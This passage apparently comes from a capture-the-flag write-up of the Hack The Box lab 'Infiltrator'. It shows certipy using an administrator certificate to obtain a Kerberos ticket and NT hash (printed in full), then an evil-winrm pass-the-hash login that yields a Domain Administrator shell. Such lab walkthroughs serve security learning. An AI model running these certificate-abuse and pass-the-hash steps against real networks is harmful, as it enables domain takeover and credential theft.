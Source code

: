 - **Authenticate with the certificate**

    ```bash
    certipy auth -pfx 'administrator.pfx' -dc-ip 10.10.11.31
    
    Certipy v5.0.2 - by Oliver Lyak (ly4k)
    
    [*] Certificate identities:
    [*]     SAN UPN: 'administrator@infiltrator.htb'
    [*] Using principal: 'administrator@infiltrator.htb'
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saving credential cache to 'administrator.ccache'
    [*] Wrote credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@infiltrator.htb': aad3b435b51404eeaad3b435b51404ee:1356f502d2764368302ff0369b1121a1
    ```

We now have `Domain Administrator` privileges, and we can authenticate to the `WinRM` service using the `evil-winrm` tool.

```bash
evil-winrm -i dc01.infiltrator.htb -u administrator -H '1356f502d2764368302ff0369b1121a1'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ..\desktop


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         8/3/2024   7:46 AM                Infiltrator ADCS Backups
-a----         8/3/2024   7:46 AM         171340 backup.zip
-ar---         6/5/2025   3:59 PM             34 root.txt
```
